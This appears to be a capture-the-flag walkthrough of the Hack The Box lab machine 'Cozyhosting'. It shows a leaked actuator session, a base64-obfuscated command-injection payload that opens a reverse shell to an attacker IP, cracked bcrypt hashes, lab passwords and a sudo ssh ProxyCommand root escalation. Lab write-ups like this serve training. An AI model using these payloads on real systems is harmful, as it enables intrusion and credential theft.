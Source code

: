 # Cozyhosting

## Info

Cozyhosting is an easy rated box from Hack The Box.  

## Enumeration

Using a spring boot wordlist, the following session info was found.  

```
http://cozyhosting.htb/actuator/sessions
```

```
{"726B7C2F54969DD2EB001E24308590DD":"kanderson"}
```

After accessing the admin panel, there is an endpoint that executes ssh. Command injection payload.

`bash<<<$(base64${IFS}-d<<<c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODEvNDQ0NCAwPiYxCg==)`

Enumerating the application jar file.  

```
host=hacker.htb&username=hackerman@localhost||`bash<<<$(base64${IFS}-d<<<c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODEvNDQ0NCAwPiYxCg==)`
```

```
username=kanderson&password=MRdEQuv6~6P9
```

postgres user database password.  

```
spring.datasource.password=Vg&nvzAQ7XxR
```
Database creds.  

```
kanderson $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin     $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

Hashcat command to crack admin hash.  

```
sudo hashcat -m 3200 -a 0 admin.hash /usr/share/wordlists/rockyou.txt --force
```

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

## User

Can ssh with josh:manchesterunited

## Root

josh can run /usr/bin/ssh *  

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

